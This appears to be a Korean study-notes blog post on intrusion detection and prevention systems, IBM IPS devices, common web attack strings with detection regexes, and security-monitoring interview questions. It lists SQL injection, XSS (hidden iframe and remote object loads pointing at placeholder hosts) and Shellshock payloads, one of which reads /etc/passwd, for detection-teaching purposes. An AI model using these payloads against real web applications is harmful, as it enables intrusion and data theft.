 ```yaml
---
layout : post
title : IPS(Intrusion Prevention System)/IDS(Intrusion Detection System)
---
```


- Signature - SQL Injection 알려진 구문을 탐지 

- Threshold - 임계치 설정, DOS 공격 탐지

- 행위기반 - 보편화되진 않지만 쓰이고 있긴 하다.

  ​	  	  미래에는 딥러닝, AI 탑재해서 쓸 듯

- IPS - 탐지된 패킷을 솔루션장비에서 물고있다가 정탐으로 인식되면 버린다.

  ​	 패킷에 스트링을 검색하여 탐지

  ​	 IDS에 차단하는 기능을 가지고 있는 것

  ​	 IPS는 임계치 방식에 특화되어있지 않다.

<br>

### IBM IPS 장비

*Response Filters*

- Event 기준
- src IP, dst IP 설정
- block, ignore 선택

<br>

*탐지 엔진 순서*

- Firewall
- Response Filter
- User Define Rule
  - String만 등록(한계가 있음)
  - SNORT 엔진 일부 탑재 OpenSignature(이걸 더 많이 사용함)
  - Tuning Parameter(고급설정)

<br>

*XGS*

- IBM 차세대 IPS 장비
- SNORT 엔진 전체 탑재
- 자체 SSL 인증서 등록(암호화/복호화)
- 각각의 네트워크 구성에 따른 다른 정책 적용

<br>

<br>

## 대표적인 웹 공격 구문

- SQL Injection

  ~~~
  ' or 1=1--  
  ") or ("a"="a  
  and 1=(select @@VERSION) 
  and 1=(IS_SRVROLEMEMBER('sysadmin')) 
  OR 'Simple' BETWEEN 'R' AND 'T' 
  and (substring(db_name(),1,1))='a'
  elect * from (select name_const(version(),1),name_const(version(),1))a
  select * from table where 1=1 and ExtractValue(1,concat(0x01,version()))
  select * from table where 1=1 and UpdateXML(1,concat(0x01,version()),1)
  select * from table where (@:=1)or@ group by concat(@@version,@:=!@)having@||min(0)
  ~~~

  > Regex : /(\%27)\|(\')\|(\-\-)\|(\%23)\|(#)/ix
  >
  > Link : <https://www.symantec.com/connect/articles/detection-sql-injection-and-cross-site-scripting-attacks>

  <br>

- XSS

  ~~~
  <script>alert("test");</script> 
  <iframe src=" hxxp://abc.com" width="0" height="0" frameborder="0"></iframe>
  <object width=0 height=0 sytle=display:none; type=text/xscriptlet data=mk:@MSITStore:mhtml:c:\abc.mht! hxxp://abc.com/attack_chm::exploit.html></object>
  ~~~

  > Regex : /((\%3C)\|<)((\%2F)\|\/)\*[a-z0-9\%]+((\%3E)\|>)/ix
  >
  > Link : <https://www.symantec.com/connect/articles/detection-sql-injection-and-cross-site-scripting-attacks>

  <br>

- Bash ShellShock

  ~~~
  User-Agent : () { :;}; echo bashtest>/tmp/test
  User-Agent : () { :; }; echo $(</etc/passwd)
  User-Agent : () { :; }; /bin/eject" hxxp://example.com/
  HTTP_USER_AGENT=() { :; }; /bin/eject
  ~~~

  > Regex : \"((?:\[^\"\]\|\\\")*)\"
  >
  > Link : <https://stackoverflow.com/questions/28115717/regexp-to-parse-apache2-log-handle-shellshock-bash-hack>

<br><br>

### 배치면접 관제 질문

> FW가 뭐에요?
>
> IDS가 뭐에요?
>
> IPS가 뭐하는 거에요?
>
> VPN 써봤어요?
>
> NAT 설정해봤어요?

